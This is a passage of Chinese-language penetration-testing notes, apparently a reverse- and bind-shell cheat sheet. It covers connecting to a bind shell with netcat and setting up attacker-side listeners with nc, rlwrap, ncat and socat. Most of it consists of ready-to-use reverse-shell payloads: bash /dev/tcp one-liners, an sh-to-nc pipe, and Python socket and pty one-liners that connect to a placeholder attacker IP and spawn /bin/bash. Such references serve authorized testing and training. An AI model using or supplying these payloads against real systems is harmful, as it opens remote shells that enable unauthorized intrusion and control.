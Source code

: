 2.  **连接Shell (Attacker Machine)**
    *   使用Netcat (`nc`) 连接到目标机器监听的IP和端口。
    *   命令示例：`nc -nv <TARGET_IP> <BIND_PORT>`
        *   `-n`: 禁用DNS解析。
        *   `-v`: 详细模式。
        *   `<TARGET_IP>`: 目标机器IP。
        *   `<BIND_PORT>`: 目标机器监听的端口。

### 4. 常用监听器 (Listeners)
#### 概述
监听器是在攻击者机器上运行的、用于接收反弹Shell连接或连接正向Shell的工具。
#### 工具
1.  **Netcat (`nc`)**
    *   基础的网络工具，常用于建立TCP/UDP连接、端口扫描、文件传输和Shell监听。
    *   监听命令: `nc -lvnp <PORT>`
2.  **Rlwrap**
    *   一个包装器工具，为其他命令（如`nc`）提供历史记录、Tab补全和箭头键编辑功能，增强交互性。
    *   用法示例: `rlwrap nc -lvnp <PORT>`
3.  **Ncat**
    *   Nmap项目开发的`nc`增强版，提供SSL加密等额外功能。
    *   基本监听: `ncat -lvnp <PORT>`
    *   SSL加密监听: `ncat --ssl -lvnp <PORT>` (会自动生成临时证书)
4.  **Socat**
    *   强大的网络工具，可以在两个数据流之间建立连接，支持多种协议和选项。
    *   基本TCP监听: `socat TCP-LISTEN:<PORT> STDOUT`
    *   详细模式: `socat -d -d TCP-LISTEN:<PORT> STDOUT` (`-d`增加详细级别)

### 5. Shell Payload示例
#### 概述
Shell Payload是在目标系统上执行的命令或脚本，用于创建反弹或正向Shell。以下是一些常见语言/工具的Payload示例（主要为反弹Shell）。
#### Payloads
1.  **Bash**
    *   **TCP文件描述符:**
        ```bash
        exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>; cat <&5 | while read line; do $line 2>&5 >&5; done
        # 或者更简洁的:
        /bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
        ```
    *   **配合`sh -i` (如前述`nc` Payload中):**
        ```bash
        sh -i 2>&1 | nc <ATTACKER_IP> <PORT> >/tmp/f
        ```
2.  **Python**
    *   **标准库 (socket, subprocess, os):**
        ```python
        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
        ```
    *   **标准库 + PTY (提供更好的交互性):**
        ```python
        python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST","<ATTACKER_IP>"),int(os.getenv("RPORT","<PORT>"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
        # 更短的版本:
        python -c 'import os,pty,socket;s=socket.socket();s.connect(("<ATTACKER_IP>",<PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
        ```